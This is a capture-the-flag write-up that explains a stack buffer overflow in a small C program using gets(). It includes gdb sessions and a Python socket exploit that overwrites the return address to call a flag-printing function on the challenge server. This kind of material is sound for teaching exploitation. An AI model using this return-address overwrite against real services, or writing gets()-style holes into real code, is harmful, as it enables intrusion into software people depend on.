

real overflow
=============

Flag: **were_running_out_of_flags**

The challenge flavortext says "Smashing the stack for fun and profit, the next
level" and links to an executable and its source code:

* [source](real_overflow_redacted.c "real_overflow_redacted.c")
* [binary](real_overflow "real_overflow") (x86)

<pre>#include <stdio.h>
#include <string.h>

char flag[] = "not_the_real_flag";

void printf_flag(void) {
  printf("Well done! here is your flag: %s\n", flag);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[1024];

  printf("Oh you again, did you know that the address of print_flag is at %p?\nCan you tell me your name again? ", printf_flag);
  fflush(stdout);

  gets(buf);

  printf("Hi %s\n", buf);
  fflush(stdout);

  return 0;
}</pre>

Examining the source code for the challenge, we notice two things:

1. There is a buffer overflow. The program `gets(buf)` from user input without
limiting the read to the 1024-byte length of `buf`.

2. We are given the address of a function that prints the flag before being
prompted for our name.

[x86 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions
"x86 calling conventions") dictate that when calling a function, the return
address is stored on the stack, just above the saved base pointer. If we can
overwrite a return address with the address of `print_flag`, instead of jumping
to that return address upon completing the function, the program will jump to
and execute `print_flag` instead.

Let's check our understanding using `gdb`.

First, we'll need to compile `real_overflow_redacted.c` a) to allow
stack-smashing, via `-fno-stack-protector`, and b) with debug symbols so we can
set breakpoints, via `-g`:

    gcc -g -o real_overflow real_overflow_redacted.c -fno-stack-protector

Next, running `real_overflow` under `gdb`, let's set breakpoints before and
after the buffer overflow:

    $ gdb real_overflow
    GNU gdb (GDB) 7.5-ubuntu
    Reading symbols from /tmp/real_overflow...done.
    (gdb) break 15
    Breakpoint 1 at 0x400641: file real_overflow_redacted.c, line 15.
    (gdb) break 19
    Breakpoint 2 at 0x40065f: file real_overflow_redacted.c, line 19.
    (gdb) run
    Starting program: /tmp/real_overflow
    Oh you again, did you know that the address of print_flag is at 0x4005ec?
    Breakpoint 1, main (argc=1, argv=0x7fffffffe638) at real_overflow_redacted.c:15
    15    fflush(stdout);
    (gdb) x/10x $rbp
    0x7fffffffe550: 0x00000000  0x00000000  0xf7a3c76d  0x00007fff
    0x7fffffffe560: 0x00000000  0x00000000  0xffffe638  0x00007fff
    0x7fffffffe570: 0x00000000  0x00000001

After the first breakpoint, before the buffer overflow, the base pointer is
`0x0000000000000000` and return address in the stack frame for `main` is
`0x00007ffff7a3c76d` (this is a 64-bit system).

Continuing to the next breakpoint:

    (gdb) c
    Continuing.
    Can you tell me your name again? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 2, main (argc=1, argv=0x7fffffffe638) at real_overflow_redacted.c:19
    19    printf("Hi %s\n", buf);
    (gdb) x/10x $rbp
    0x7fffffffe550: 0x41414141  0x41414141  0x41414141  0x41414141
    0x7fffffffe560: 0x00000000  0x00000000  0xffffe638  0x00007fff
    0x7fffffffe570: 0x00000000  0x00000001

At the second breakpoint, after we've provided 1040 bytes of input (enough to
overflow `buf` and hopefully enough of the stack to overwrite the return address
of the stack frame for `main`), we can see that the base pointer and return
address have been overwritten by our `A`s (0x41).

Continuing:

    (gdb) c
    Continuing.
    Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    0x000000000040068d in main (argc=1, argv=0x7fffffffe638) at real_overflow_redacted.c:23
    23  }

Our test payload segfaults because on returning from `main` we try to jump to
`0x4141414141414141`, which is an invalid address.

All we need to do, then, is to send as our name a payload containing padding and
then the address of `print_flag`.

The address of `print_flag` will overwrite the return address in the stack frame
for `main`, and instead of jumping back to the caller of `main` (a long story we
won't get into for this challenge), the program will jump to and execute
`print_flag`.

Note that, while we were testing on a 64-bit system, the challenge executable is
being run on a 32-bit system. We can tell because `objdump -d` on the provided
binary shows registers like `$esp` and `$ebp`. Thus, when crafting our payload,
pointers are 4 bytes, rather than the 8 we saw under `gdb`:

    import re, socket, struct

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('ctf.stratum0.net', 4444))

    # Welcome message is:
    # Oh you again, did you know that the address of print_flag is at 0x804849c?
    # Can you tell me your name again?
    welcome_msg = s.recv(4096)
    flag_func_addr = re.search("0x(.*)\?", welcome_msg).groups()[0].zfill(8)

    # To format the print_flag address for the payload, pack a struct with
    # the 4-byte address, little-endian.

    # How far up the stack the return address is may vary from system to
    # system, so repeat the address a couple of times past the bounds of
    # the array.
    payload = "A" * 1024 + struct.pack("<I", int(flag_func_addr, 16)) * 6 + "\n"

    s.send(payload)
    print s.recv(4096)
    s.close()

Running our exploit, we get:

    $ python real_exploit.py
    Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??
    Well done! here is your flag: flag{were_running_out_of_flags}

The flag is thus `were_running_out_of_flags`.
